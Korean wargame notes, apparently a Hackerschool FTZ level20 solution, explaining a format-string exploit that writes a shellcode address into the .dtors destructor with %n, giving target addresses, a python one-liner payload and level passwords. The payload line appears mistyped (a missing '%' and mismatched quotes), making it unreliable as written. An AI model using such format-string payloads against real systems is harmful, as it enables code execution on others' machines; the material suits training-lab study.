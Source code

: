 ### level20
- pw : we are just regular guys
- fgets에서 받는 크기(79)가 bleh배열 크기(80) 보다 작으므로 버퍼오버플로우로 RA 덮어쓰는것은 불가능
- printf(bleh) 에서 FSB 취약점 가능
- %n 이용해서 소멸자 .dtor에 쉘코드 주소를 넣어주면 됨
- 주소값 숫자가 매우 크므로 두번에 나눠서 2byte씩 채우는 과정 필요
- 얻어진 쉘코드 환경변수 주소는 0xbffffaa4이고 소멸자 .dtor +4 주소는 0x8049598
- 
```
(python -c 'print "AAAA"+"\x98\x95\x04\x08"+"AAAA"+"\x9a\x95\x04\x08"+"%8x%8x%8x"+"64132c"+"%n"+"%50515c"+%n"';cat) | ./attackme
```

### level clear
- pw : i will come in a minute